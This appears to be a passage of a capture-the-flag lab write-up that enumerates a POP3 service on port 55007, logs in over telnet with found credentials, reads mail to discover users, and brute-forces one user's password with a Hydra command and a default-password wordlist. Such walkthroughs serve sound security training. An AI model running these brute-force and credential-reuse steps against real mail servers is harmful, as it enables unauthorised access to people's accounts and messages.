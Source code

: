 <span style="line-height:0.5;">&nbsp;</span>

### Inspect port 55007, what service is configured to use this port?
<pre>pop3</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What can you find on this service?
Log in as user boris using telnet:
```BASH
telnet $ip 55007
``` 

Then enter the following commands:
```BASH
USER boris
PASS secret1!
```  

![image-4](https://github.com/user-attachments/assets/ced30e66-c3af-4884-8d05-29e5e69e8de8)


List and read emails:
```BASH
LIST
RETR $message_id
```

![image-5](https://github.com/user-attachments/assets/53c1e6a7-bee0-4ea1-a9b2-242710dddac9)

<pre>emails</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What user can break Boris' codes?  

![image-6](https://github.com/user-attachments/assets/521759e9-9059-4ffa-8388-c2f056feced7)

<pre>natalya</pre>

Also, a third email reveals another user: Xenia.  

![image-7](https://github.com/user-attachments/assets/23689d7c-d631-4210-b157-566b5c9fe3a6)

Brute-force POP3 for user natalya using Hydra with a default credentials wordlist:
```BASH
hydra -l natalya -P /usr/share/wordlists/seclists/Passwords/Default-Credentials/default-passwords.txt $ip -s 55007 pop3
```

<pre>bird</pre>

Use Natalya’s credentials to log in via telnet as before. In the second email obtained after logging in, you will see credentials for Xenia: 

![image-8](https://github.com/user-attachments/assets/0d7e1e66-02d7-44c0-8bda-d659f3415b87)
